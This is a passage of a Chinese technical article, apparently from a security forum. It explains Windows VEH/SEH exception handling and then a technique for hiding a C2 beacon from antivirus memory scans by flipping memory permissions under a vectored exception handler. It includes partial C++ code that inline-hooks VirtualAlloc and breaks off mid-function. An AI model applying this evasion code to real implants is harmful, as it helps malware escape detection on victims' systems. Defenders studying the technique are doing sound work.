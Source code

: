 windows异常处理
-----------

Windows中主要的异常处理机制：VEH、SEH、C++EH。

SEH中文全称：结构化异常处理。就是平时用的`__try` `__finally` `__try` `__except`,是对c的扩展。

VEH中文全称：向量异常处理。一般来说用`AddVectoredExceptionHandler`去添加一个异常处理函数，可以通过第一个参数决定是否将VEH函数插入到VEH链表头，插入到链表头的函数先执行，如果为1，则会最优先执行。

C++EH是C++提供的异常处理方式，执行顺序将排在最后。

在用户模式下发生异常时，异常处理分发函数在内部会先调用遍历 VEH 记录链表的函数， 如果没有找到可以处理异常的注册函数，再开始遍历 SEH 注册链表。

Windows异常处理顺序流程

- 终止当前程序的执行
- 调试器(进程必须被调试,向调试器发送EXCEPTION\_DEBUG\_EVENT消息)
- 执行VEH
- 执行SEH
- TopLevelEH(进程被调试时不会被执行)
- 执行VEH
- 交给调试器(上面的异常处理都说处理不了，就再次交给调试器)
- 调用异常端口通知csrss.exe

通过流程也可以看到VEH的执行顺序是要优于SEH的。

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6a3efe8ca8bb758974908b7406aa4d8107bf429a.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6a3efe8ca8bb758974908b7406aa4d8107bf429a.png)

通过VEH异常处理规避内存扫描
---------------

当AV描扫进程空间的时候，并不会将所有的内存空间都扫描一遍，只会扫描敏感的内存区域。

所谓的敏感内存区域无非就是指可执行的区域。思路就是不断地改变某一块内存属性，当应该执行命令或者某些操作的时候，执行的内存属性是可执行的，当功能模块进入睡眠的时候则将内存属性改为不可执行。

当执行的地址空间为不可执行时，若强行执行则会返回0xc0000005异常，这个异常是指没有权限执行。所以通过VEH抓取这个异常，即可根据需求，动态的改变内存属性，进而逃避内存扫描。

当触发0xc0000005异常的时候需要恢复内存可执行属性，就通过AddVectoredExceptionHandler去注册一个异常处理函数，作用就是更改内存属性为可执行。那么就需要知道是哪一块地址需要修改，这里要根据申请空间API决定，如果是VirtualAlloc就hook VirtualAlloc，如果是其他申请空间API就hook其他API，这个根据具体的c2profile配置有关。如果不使用c2profile那么默认就是使用VirtualAlloc分配空间。这里先看一下hook VirtualAlloc，作用主要是为了读取起始地址和大小。

```c++
static LPVOID(WINAPI* OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;

LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {
    unhookVirtualAlloc();
    Beacon_len = dwSize;
    Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);
    hookVirtualAlloc();
    printf("分配大小:%d", Beacon_len);
    printf("分配地址:%x \n", Beacon_address);
    return Beacon_address;
}

void hookVirtualAlloc() {
    DWORD dwAllocOldProtect = NULL;
    BYTE pAllocData[5] = { 0xe9,0x0,0x0,0x0,0x0 };
    //保存原来的硬编码
    RtlCopyMemory(g_OldAlloc, OldVirtualAlloc, sizeof(pAllocData));
    //计算偏移
    DWORD dwAllocOffeset = (DWORD)NewVirtualAlloc - (DWORD)OldVirtualAlloc - 5;
    //得到完整的pAllocData
    RtlCopyMemory(&pAllocData[1], &dwAllocOffeset, sizeof(dwAllocOffeset));
    //改为可写属性
    VirtualProtect(OldVirtualAlloc, 5, PAGE_READWRITE, &dwAllocOldProtect);
```